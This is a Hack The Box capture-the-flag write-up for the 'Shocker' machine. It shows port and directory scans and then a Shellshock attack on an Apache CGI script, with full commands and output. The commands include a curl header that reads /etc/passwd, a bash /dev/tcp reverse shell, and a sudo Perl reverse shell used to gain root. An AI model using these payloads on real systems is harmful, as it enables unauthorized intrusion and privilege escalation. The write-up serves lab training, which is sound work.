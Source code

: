 ```yaml
---
title: Shocker - Hack the Box 
date: 2021-02-08 20:16:11
author: 7h3M0nk
author_url: https://twitter.com/7h3M0nk
categories:
  - HackTheBox
tags:
  - HackTheBox
  - Shocker 
  - Writeup
---
```


How to crack Shocker box without Metasploit.

tl;dr 
+ ShellShocker exploit
+ Apache mod_cgi


<!--more-->

Solved by : [7h3M0nk](https://twitter.com/7h3M0nk) <!-- change username -->

The IP of the box is 10.10.10.56, the other thing that we know is, it's a Linux box.

## Enumeration

Doing a port scan. 
```bash
nmap -Pn -sCV -p80-2222 10.10.10.56

Nmap scan report for 10.10.10.56
Host is up (0.19s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Mon Feb  8 05:11:07 2021 -- 1 IP address (1 host up) scanned in 13.29 seconds

```

We are able to see an Apache server running at port 80 and OpenSSH at port 2222

Doing a serach on the know exploits of the Apache version landed me onto the exploit db page which explains about [Apache mod_cgi](https://www.exploit-db.com/exploits/34900), which allows Remote Command Injection.

Checking the page http://10.10.10.56/cgi-bin/ is giving 403 Permission denied.

Let's use DirBuster to check if any files are available, preferably configuration files. 

```bash

dirb http://10.10.10.56/cgi-bi/ -X .sh .py

START_TIME: Mon Feb  8 10:51:37 2021
URL_BASE: http://10.10.10.56/cgi-bin/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.sh,.py) | (.sh)(.py) [NUM = 2]
-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/cgi-bin/ ----
+ http://10.10.10.56/cgi-bin/user.sh (CODE:200|SIZE:118)                                                                                                                                   
                                                                                                                                                                                           
-----------------
END_TIME: Mon Feb  8 11:07:40 2021
DOWNLOADED: 4612 - FOUND: 1


```
And we just found a configuration file named user.sh

Let's use the file to inject commands and see if it works.

## Exploit

```bash
┌──(kali㉿kali)-[~/HackTheBox/Shocker/nmap]
└─$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \http:/10.10.10.56/cgi-bin/user.sh                                                                          

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
 
```

Yes!! That worked. Now to get the shell and grab the user flag.

```bash

curl -H "user-agent:() { :; }; echo; echo; /bin/bash -c 'bash -i  >& /dev/tcp/10.10.14.7/800 0>&1'" \http:/10.10.10.56/cgi-bin/user.sh

nc -nvlp 800

┌──(kali㉿kali)-[~]
└─$ sudo nc -nvlp 800                                                                                                                                                                   1 ⨯
[sudo] password for kali: 
listening on [any] 800 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.56] 41000
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ cd ~/
cd ~/
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt


```

We owned user, onto Privilage escalation.

Let's see if the user has any binary which has sudoer permission.

```bash

shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```
It's clear that perl has sudo access. Let's pop a reverse shell using perl and get the root flag.

There is a cool repo named [PaylodAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl), where one can find almost all kinds off payloads. 

```bash

shelly@Shocker:/home/shelly$ sudo perl -e 'use Socket;$i="10.10.14.7";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'


┌──(kali㉿kali)-[~]
└─$ sudo nc -nvlp 4242                                
[sudo] password for kali: 
listening on [any] 4242 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.56] 53964
bash: no job control in this shell
root@Shocker:/home/shelly# whoami
whoami
root
root@Shocker:/home/shelly# cd ~/
cd ~/
root@Shocker:~# ls
ls
root.txt
root@Shocker:~# cat root.txt
cat root.txt

```
 
 Solved Shocker :)
